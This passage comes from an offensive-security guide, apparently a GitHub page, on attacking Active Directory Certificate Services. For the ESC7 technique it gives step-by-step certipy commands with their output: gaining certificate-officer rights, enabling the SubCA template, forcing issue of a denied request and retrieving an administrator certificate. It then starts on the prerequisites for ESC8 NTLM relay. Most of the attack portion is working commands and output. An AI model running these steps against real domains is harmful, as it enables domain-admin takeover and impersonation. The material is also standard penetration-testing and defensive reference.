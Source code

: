 - Only **ManageCA** permission
- **Manage Certificates** permission (can be granted from ManageCA)
- Certificate template  **SubCA** must be enabled (can be enabled from ManageCA)
```
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
```
The **SubCA** template can be enabled on the CA with the -enable-template parameter. By default, the SubCA template is enabled.
```
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
```
Once the prerequisites for this attack are fulfilled, requesting a certificate based on the SubCA template can be performed.

This request will be denied, but the private key should be saved and the request ID noted down.
```
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```
With the **Manage CA** and **Manage Certificates**, it is possible to issue the failed certificate request with the ca command and the `-issue-request <request ID>` parameter:
```
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
Finally, the issued certificate can be retrieved with the `req` command and the `-retrieve <request ID>` parameter:
```
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
#### NTLM Relay to AD CS HTTP Endpoints – ESC8
The prerequisites for this attack are the following:
- ADCS running on the domain with web enrollment enabled.
- A working coerce method (here we use petitpotam unauthent, but an authenticated printerbug or other coerce methods will work the same)
- A useful template to exploit ESC8, by default on an active directory, its name is DomainController
